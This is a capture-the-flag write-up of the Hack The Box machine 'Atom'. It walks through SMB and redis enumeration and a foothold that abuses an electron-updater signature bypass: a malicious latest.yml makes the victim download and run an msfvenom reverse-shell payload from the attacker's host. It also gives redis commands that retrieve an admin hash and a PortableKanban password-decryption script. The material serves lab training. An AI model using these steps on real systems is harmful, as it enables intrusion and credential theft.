


<h1 align="center"> HTB Atom - Writeup</h1>

<p align="center">
 
</p>

Its me **m3rcer** back with another one .
This is a fun little box w a medium difficulty. There's a few rabbit holes but other than that its quite straightforward . In my opinion i found the privesc a bit harder than the inital foothold . 

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*

Lets Begin!

----------------------------------------------------------------------------------------------------

### ENUMERATION

We kick it off with a usual nmap scan . In this case a default script and version scan w the verbose flag to see open ports on the fly without having to wait for the scan to finish.


A full port scan reveals redis is active on port 6379 along w winrm at 5985 which shows we can probably use remoting with authentic creds.


We start off by checking port 80:

We find a possible uname at th end of the page : MrR3boot@atom.htb.

From this we infer and add atom.htb to /etc/hosts list. And continue browsing .

Directory Bruteforcing w gobuster results in nothing too great so moving on! 

**Enumerating redis:**


Much cant be enumerated since redis requires auth . Checking the format of auth shows it requires only the pass. We could attempt to brute force the pass if nothing turns up from smb.

**Enumerating smb:**


Smbmap shows use we have access to 2 shares amongst which IPC$ is the default and can be used for named pipe enum using enum4linux later .
Software_Updates seems interesting as we have right access too to it.


Using smbclient to connect to the share:



The other folders are empty so be grap the pdf. Looking at the pdf given we infer 2 things:


**Built with : electron-builder**

We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here..


This link explains the exploit : [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)

In short is a vuln caused my and unescaped variable . We can trigger a parse error in the script .

The exploit bypasses inbuilt signature checks.




----------------------------------------------------------------------------------------------------

### FOOTHOLD

**I did the following to recreate the vuln:**

- Generate an msfvenom payload of choice . I generated a rev https exe. and then rename it with a single quote.


I renamed the file to d'payload.exe


- Calculate the hash using the prescribed syntax : 


- Setup a listener on msfconsole to catch your shell using multi/handler.

- Generate the latest.yml file update: Replace the path and the hash.

```bash
version: 1.2.3
path: http://10.10.14.52/d'payload.exe 
sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
```

- Start a server to host d'payload.exe using:

`sudo python -m SimpleHTTPServer 80`

- Finally put the update file in one of the client folders on the share using smbclient.
Wait for about 15-20 secs and let the update happen . You will recieve a meterpreter shell!


Congrats We now have a reverse shell. 

A getuid command shows we are ATOM\jason.

Great!

***GETTING USER.txt***

__C:\Users\jason\Desktop\user.txt__ 

Retrieve contents of the file to see your flag!

----------------------------------------------------------------------------------------------------

### PRIVESC:

**Enumerating with winpeas:**

Begin by dropping winpeas on the box.


Run it...

Details found :

- jasons creds :


Dosent allow winrm remoting but...

- A user guide pdf which we might have a look at if needed .... 


- Since we already know redis was on ... I found its conf file . Looks juicy . Lets have a look:


We found the pass for redis. 


**PENTESTING redis:**

Use this [link](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.

Now follow the steps:

- Connect to redis using:
`redis -h 10.10.10.237`

- Authenticate using the password:
`auth pass`

- Retrive info on the keyspace using:
`info keyspace`

- We see that there is one db - number 0 which has 4 keys.
View the keys by:
`keys *`

- We see a bunch of keys . Retrieve the first or last , it might most likely be the administrator using:
`get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`


- We now have the administrator hash ! Awesome!


Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for clues and i found :


Googling around made me figure that portable-kanban stores the settings for the enc pass.

Searching around for an exploit i found an enc password disclosure vuln [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/) .

- Remove the unnecessary except statement.

The python script:

```python
import json
import base64
from des import * 

#python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```
- Install des using ... `sudo pip3 install des` as stated in the script.

- Run the script , i/p your hash and get the decrypted hash. 


We now finally have the password of admin. 

Lets try winrm again using these creds.... 


**GETTING Root.txt**

__type C:\Users\Administrator\Desktop\root.txt__

And thats a wrap!

 _Bookmark to recieve the latest writeups!_

----------------------------------------------------------------------------------------------------


